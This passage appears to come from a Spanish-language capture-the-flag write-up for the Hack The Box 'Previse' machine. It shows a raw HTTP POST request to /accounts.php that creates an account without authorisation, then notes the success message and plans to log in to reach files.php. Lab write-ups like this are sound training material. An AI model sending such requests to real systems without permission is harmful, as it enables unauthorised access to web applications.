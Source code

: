 ```POST /accounts.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 49
Content-Type: application/x-www-form-urlencoded

username=Tnr1112&password=lalala&confirm=lalala
```
![](https://github.com/Tnr1112/HTB-Writeups/blob/main/Machines-Maquinas/Easy-Facil/Linux/Previse/images/accountsPOST.jpg "AccountsPOST")

Como vemos, dice _Success! User was added!_, así que resta loguearnos con esta cuenta para ingresar al archivo _files.php_
